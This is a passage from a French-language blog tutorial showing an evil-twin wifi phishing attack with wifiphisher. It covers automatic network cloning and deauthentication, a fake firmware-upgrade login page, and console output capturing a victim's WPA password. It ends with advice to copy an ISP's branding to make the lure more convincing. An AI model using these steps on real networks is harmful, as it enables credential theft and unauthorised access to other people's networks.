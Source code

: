 L'option choisie ici est `Firmware Upgrade Page`. Le réseau est automatiquement cloné, les paquets de désauthentification sont automatiquement envoyés. Il n'y a qu'à attendre qu'une victime se connecte sur le réseau et entre le mot de passe sur la fausse page d'authentification :

[![Recherche de réseaux wifi WEP vulnérables](/assets/images/2020-12-01-Pirater-un-reseau-wifi-securise/page-authentification-wifi-phishing.png)](/assets/images/2020-12-01-Pirater-un-reseau-wifi-securise/page-authentification-wifi-phishing.png)

Voici le résulat lorsqu'une victime entre un mot de passe. Toutes les requêtes apparaissent en clair du côté de l'attaquant et le mot de passe aussi : `wfphshr-wpa-password=jetaime`:

```shell
Extensions feed:                    | wifiphisher 1.4GIT          
DEAUTH/DISAS - UT:IL:IS:AT:EU:R1    | ESSID: HACK-MOI-SI-TU-PEUX       
DEAUTH/DISAS - UT:IL:IS:AT:EU:R2    | Channel: 6                  
DEAUTH/DISAS - UT:IL:IS:AT:EU:R3    | AP interface: wlan0         
DEAUTH/DISAS - UT:IL:IS:AT:EU:R4    | Options: [Esc] Quit         
DEAUTH/DISAS - UT:IL:IS:AT:EU:R5    |_____________________________

Connected Victims:                                                                                            
UT:IL:IS:AT:EU:R2       10.0.0.55       Unknown iOS/MacOS                                                     

HTTP requests:                                                                  
[*] POST request from 10.0.0.55 with wfphshr-wpa-password=jetaime               
[*] GET request from 10.0.0.55 for http://captive.apple.com/hotspot-detect.html
[*] GET request from 10.0.0.55 for http://captive.apple.com/hotspot-detect.html

```
Pour cet article, je n'ai pas pris le temps de personnaliser la page, il est évident que plus la page sera contextualisée, plus l'attaque aura de chances de réussir. wifiphisher permet de créer ses modules et templates. Pour une attaque réaliste, il convient de reproduire la charte graphique de la marque du fournisseur d'accès du point d'accès cible (*Free*, *Bouygues*, *Orange*...)
